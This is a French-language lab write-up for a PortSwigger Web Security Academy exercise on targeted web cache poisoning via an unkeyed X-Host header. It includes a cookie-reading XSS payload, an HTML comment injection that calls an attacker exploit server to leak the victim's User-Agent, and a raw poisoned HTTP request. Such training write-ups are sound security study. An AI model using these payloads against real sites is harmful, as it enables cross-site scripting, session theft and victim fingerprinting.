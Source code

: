 # Lab

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header

## Payload

Avec `Param Miner` on trouve un header `X-Host` qui est un unkey header.

`x-host: exploit-0a1500a3036fb39381e0c512017f0062.exploit-server.net`

Dans l'exploit server, on crée la ressource `/resources/js/tracking.js` avec le contenu :

```js
alert(document.cookie);
```

On arrive bien a trigger la XSS sur mon navigateur mais on voit dans les headers de la réponse que le header `Vary` est présent : `Vary: User-Agent`.

Ce qui nous indique que le cache se base aussi sur le User-Agent pour desservir les ressources.

Il nous faut donc trouver le User-Agent de la victime.

Sur la page d'un article on a la possibilité de mettre uncommentaire et on voit qu'il est écrit `HTML comments are allowed`.

On peut donc injecter `<img src="http://exploit-0a1500a3036fb39381e0c512017f0062.exploit-server.net">` dans le commentaire pour provoquer une requête vers notre Burp Collaborator et extraire le User-Agent de la victime.

Ensuite, on peut re-essayer notre attaque avec le User-Agent de la victime et on voit que le header `Vary` n'est plus présent.

```
GET / HTTP/1.1
Host: 0a98001603a305f38770206800460003.h1-web-security-academy.net
Cookie: session=GhWNBxNW1MXs125ENbGjUW9Yo1k9H0Rv
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
x-host: exploit-0a18004a0339050987c01f4401d100f2.exploit-server.net
```
